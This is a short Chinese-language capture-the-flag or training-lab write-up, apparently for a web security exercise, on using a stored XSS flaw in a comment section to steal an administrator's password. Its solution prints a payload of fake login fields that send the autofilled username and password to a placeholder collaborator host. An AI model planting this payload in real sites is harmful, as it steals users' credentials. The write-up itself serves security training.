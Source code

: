 # 题意
![](pic/8-2.png)
该实验与上一题类似，也是在评论区有存储型XSS漏洞，利用这个漏洞获取管理员的密码并登录。
# 解题思路
整体思路与上一题一致，不同点在与payload的编写：
```
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

其他步骤与上一题一致，最后获得的密码如下：
![](pic/passwd.png)

# 知识点
##  利用存储型XSS获取密码

如今自动补全密码的功能十分普遍，攻击者可以创建用户名和密码输入界面来利用这个现象，进而获取自动补全的密码并且发送到自己的域中。这个技术避免了上一题提到的获取cookie的大部分问题，但是缺点在于只适用于使用了密码补全功能的用户。